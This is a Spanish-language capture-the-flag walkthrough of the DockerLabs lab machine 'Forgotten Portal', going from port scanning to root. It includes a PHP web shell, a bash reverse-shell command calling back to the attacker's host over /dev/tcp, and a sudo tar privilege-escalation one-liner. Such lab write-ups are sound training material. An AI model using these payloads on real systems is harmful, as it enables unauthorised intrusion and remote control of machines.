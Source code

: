 # FORGOTTEN PORTAL - DOCKERLABS

## INFORMACIÓN Y DESPLIEGUE DE LA MÁQUINA

Esta máquina es de [DockerLabs](https://dockerlabs.es)

Para descargarla vas a [DockerLabs](https://dockerlabs.es) y buscas la máquina Forgotten Portal. Abres el enlace de mega, descargas el zip, lo descomprimes y ejecutas `bash ./auto_deploy.sh ./forgotten_portal.tar`. De esta forma se ejecutará el contendor de docker de la máquina.

### descripción

- Dificultad: medio
- Sistema Operativo: linux
- Autor: Cyberland

## ESQUEMA

![forgottenportal](https://github.com/user-attachments/assets/c83f6e2f-fa04-4073-867f-e6071e480f0b)

## ENUMERACIÓN

### conectividad y SO

Primero comprobamos la conectividad con la máquina:

```python
ping -c 1 172.17.0.2
```

![image](https://github.com/user-attachments/assets/f38c0de7-c42e-4cd8-95a6-a951df387a85)

Nos llega respuesta. Como el TTL es de 64, la máquina seguramente use Linux.

### escaneo de puertos y servicios

Hacemos un escaneo de todo el rango de puertos por TCP con nmap:

```python
nmap -p- --open -sS --min-rate 5000 -vvv -n -Pn 172.17.0.2 -oG tcp_ports
```

> `-p-`: todo el rango de puertos

> `--open`: solo reportar los puertos abiertos

> `-sS`: usar el método de escaneo SYN, que es más sigiloso y rápido que el normal. Requiere privilegios a nivel de sistema para enviar raw packets

> `--min-rate 5000` enviar como mínimo 5000 paquetes por segundo

> `-vvv` triple verbose. Nada más descubrir un puerto lo muestra por pantalla, también muestra más información de lo normal sobre el escaneo

> `-n` no hacer resolución DNS

> `-Pn` no hacer host discovery

> `-oG tcp_ports` exportar el output en formato grepeable al archivo `tcp_ports`

![image](https://github.com/user-attachments/assets/0183a442-b1ef-499b-ad1c-e452ea751977)

#### puertos abiertos

**22 - TCP - SSH**

**80 - TCP - HTTP**

Ahora hacemos un escaneo de servicios y versiones sobre el puerto 22 y 80:

```python
nmap -p22,80 -sCV 172.17.0.2 -oN targeted
```

> `-p22,80` hacer el escaneo solo sobre los puertos 22 y 80

> `-sCV` lanzar escaneo de versiones y scripts estándar de reconocimiento

> `-oN targeted` exportar el output al archivo `targeted`, en formato nmap

![image](https://github.com/user-attachments/assets/0e1be30e-6b9e-4118-9afb-2b695989a448)

### puerto 80

Hacemos `whatweb http://172.17.0.2` para ver que tecnologías usa la página web, pero hay nada interesante. Cargamos el servicio web en el naveagdor:

![image](https://github.com/user-attachments/assets/aa683123-b574-40bb-8d71-b94d32f9e13f)

No encontramos mucha información útil a simple vista, aunque en la parte de "Equipo", hay tres posibles usuarios. Si inspeccionamos el código de la página principal, vemos este comentario:

![image](https://github.com/user-attachments/assets/8190cfc2-ea06-4c70-a705-97c0a3517147)

Cargamos el archivo `m4ch1n3_upload.html`:

![image](https://github.com/user-attachments/assets/9e36c7b9-1009-451a-a3a2-716c4bbbfd8b)

Y vemos este panel de subida de archivos.

## EXPLOTACIÓN

Al parecer se pueden subir archivos PHP, así que probamos a subir esta web shell de primeras:

```python
<?php
    system($_GET['cmd']);
?>
```

Luego vamos a `/uploads`, y cargamos el archivo. Probamos a ejecutar el comando `id`:

![image](https://github.com/user-attachments/assets/8ba4a444-624a-4a42-a3eb-745309eb5de2)

Funciona. Ahora para ganar acceso a la máquina seguimos estos pasos:

Nos ponemos en escucha por el puerto que sea:

```python
nc -nlvp 443
```

Ejecutamos este comando desde la web shell:

```python
/bin/bash -c "bash -i >%26 /dev/tcp/172.17.0.1/443 0>%261"
```

![image](https://github.com/user-attachments/assets/023daa6e-2458-4627-8ce1-a47e793ff1f5)

Y nos llega la conexión.

## TRATAMIENTO TTY

```python
script /dev/null -c bash
Ctrl+Z
stty raw -echo; fg
reset
xterm
export TERM=xterm
export SHELL=bash
stty rows <filas> columns <columnas>
```

Para ver el número de filas y columnas que usa tu pantalla, ejecutas `stty -a`.

## ESCALADA DE PRIVILEGIOS

### alice

Somos el usuario www-data. No tenemos permisos de sudo, tampoco hay archivos SUID interesantes, ni nada por el estilo. Si vamos a `/var/www/html`, encontramos un archivo interesante llamado `access_log`:

![image](https://github.com/user-attachments/assets/a70c3912-1bc6-425e-8f5e-432b41077cb4)

En una parte de este archivo hay una cadena que parece estar codificada en base64. La intentamos decodificar:

```python
echo "YWxpY2U6czNjcjN0cEBzc3cwcmReNDg3" | base64 -d; echo
```

![image](https://github.com/user-attachments/assets/8f72b26e-38f6-41a0-8c2f-658a6fa66042)

Parece que tiene la contraseña del usuario alice: `s3cr3tp@ssw0rd^487`. Ahora hacemos `su alice` y ponemos la contraseña.

### bob

Ahora somos el usuario alice. Tampoco tenemos permisos de sudo. Si vamos a `/home/alice`, hay un directorio llamado `incidents` que tiene un archivo `report`:

![image](https://github.com/user-attachments/assets/5f4606c4-58e3-4e66-89ff-339c2782317d)

En este se nos dice que todos los usuarios del sistema comparten la misma clave SSH, y que la passphrase es `cyb3r_s3curity`. Entonces vamos a `/home/alice/.ssh`, y usamos la `id_rsa` (hay que ejeceutar `chmod 600 id_rsa`, ya que tiene permisos incorrectos) para conectarnos como bob a la máquina víctima:

```python
ssh bob@172.17.0.2 -i id_rsa
```

Y de passphrase: `cyb3r_s3curity`.

### root

Ahora somos bob, y si ejecutamos `sudo -l`:

![image](https://github.com/user-attachments/assets/7b778056-3432-4fee-8e12-b2c4a3cd0faf)

Veremos que podemos ejecutar como cualquier usuario, sin usar nuestra contraseña, el binario `/bin/tar`. Buscamos en [gtfobins](https://gtfobins.github.io/) por el ejecutable `tar`:

![image](https://github.com/user-attachments/assets/1d6bd9b5-a9c7-421d-ab9e-af15b8f66b08)

Ejecutamos:

```python
sudo tar -cf /dev/null /dev/null --checkpoint=1 --checkpoint-action=exec=/bin/bash
```

![image](https://github.com/user-attachments/assets/91a6d286-e8f6-4e8b-b991-89d0ed35b788)

Y ganamos una bash como root en la máquina Forgotten Portal.